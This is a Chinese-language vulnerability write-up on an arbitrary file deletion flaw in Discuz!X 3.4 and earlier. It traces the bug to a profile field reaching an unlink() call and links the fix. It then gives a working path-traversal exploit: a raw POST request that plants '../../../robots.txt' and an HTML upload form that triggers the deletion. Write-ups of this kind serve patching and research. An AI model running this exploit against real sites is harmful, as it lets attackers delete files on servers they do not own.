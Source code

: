 # Discuz!x 3.4 任意文件删除漏洞

## 一、漏洞简介

## 二、漏洞影响

影响版本：Discuz!x ≤3.4

## 三、复现过程

漏洞分析

Discuz!X的码云已经更新修复了该漏洞

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![](images/15889924938179.png)


跟入代码70行


```php
if(submitcheck('profilesubmit')) {
```

当提交profilesubmit时进入判断，跟入177行

![](images/15889925101552.png)


我们发现如果满足配置文件中某个formtype的类型为file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![](images/15889925170761.png)


我们发现formtype字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现228行再次引入语句unlink


```php
@unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]);
```

回溯进入条件

![](images/15889925345937.png)


当上传文件并上传成功，即可进入unlink语句

![](images/15889925406687.png)


然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![](images/15889925541049.png)


成功实现了任意文件删除

漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](images/15889925660799.png)


注册用户后，在个人设置页面找到自己的formhash：

![](images/15889925735645.png)


带上自己的Cookie、formhash发送如下数据包：


```bash
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--
```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![](images/15889926025177.png)


说明我们的脏数据已经进入数据库了。

然后，新建一个upload.html，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：


```html
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](images/15889926339167.png)
